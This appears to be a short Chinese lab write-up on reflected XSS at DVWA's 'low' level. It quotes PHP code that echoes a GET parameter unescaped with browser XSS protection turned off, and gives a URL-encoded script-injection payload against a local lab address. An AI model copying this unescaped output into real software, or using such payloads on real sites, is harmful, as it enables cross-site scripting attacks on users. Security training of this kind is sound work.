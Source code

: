 <center>XSS Reflected反射型xss</center>





[toc]









## XSS Reflected反射型xss

> XSS Reflected反射型xss



















### 1. low

> 低级

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

```

> 没有任何防护

```shell
http://192.168.0.111:8000/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
```








